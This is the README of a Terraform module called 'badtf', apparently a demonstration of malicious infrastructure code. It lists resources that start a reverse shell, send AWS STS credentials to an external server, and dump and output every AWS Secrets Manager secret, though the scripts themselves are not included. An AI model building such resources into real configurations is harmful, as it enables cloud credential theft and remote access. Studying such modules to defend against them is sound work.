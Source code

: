 ## Terraform Module - badtf

<img width="523" alt="badtf" src="https://github.com/mccabe615/badtf/assets/1463253/5ac0e424-3af0-4466-8c92-85e25638fbb6">


The badtf Terraform module is a collection of resources that perform various tasks, including running a remote script, starting a reverse shell, sending STS credentials, and retrieving secrets from AWS Secrets Manager.

## Usage
To use the badtf module, you can include it in your Terraform configuration like this:


`module "badtf" {
  source = "path/to/badtf"

  run_remote_script = true
  remote_script_path = "path/to/your/remote/script"
  remote_domain = "your.remote.domain"

  run_local_script = true
  iam_role_name = "your-iam-role-name"
  external_server_url = "https://your.external.server.url"

  secrets = true
}`

##Input Variables

`run_remote_script` - Set to true to run a remote script.
`remote_script_path` - The path to the remote script.
`remote_domain` - The domain of the remote host.

`run_local_script` - Set to true to run a local script.
`iam_role_name` - The name of the IAM role to use for the local script.

`external_server_url` - The URL of the external server for the local script.

`secrets` - Set to true to retrieve secrets from AWS Secrets Manager.

## Resources

The badtf module consists of the following resources:

null_resource.remote_script - Runs a remote script on the specified host using SSH.
null_resource.start_reverse_shell - Runs a local script to start a reverse shell.
null_resource.send_sts_credentials - Runs a local script to send STS credentials to an external server.
data.aws_secretsmanager_secret.all - Retrieves all secrets from AWS Secrets Manager.
data.aws_secretsmanager_secret_version.secrets - Retrieves the latest version of each secret.
null_resource.output_secrets - Outputs the names and values of the retrieved secrets.

## Providers
The badtf module uses the following providers:

aws - The AWS provider is used to interact with AWS Secrets Manager.

## Notes

- The module assumes that you have the necessary SSH access and AWS credentials to perform the specified operations.
- The local scripts (setup.sh and script.py) are not included in the module and need to be provided separately.
- The module does not include any error handling or validation, so it's important to ensure that the input variables are correct and the necessary resources are available.
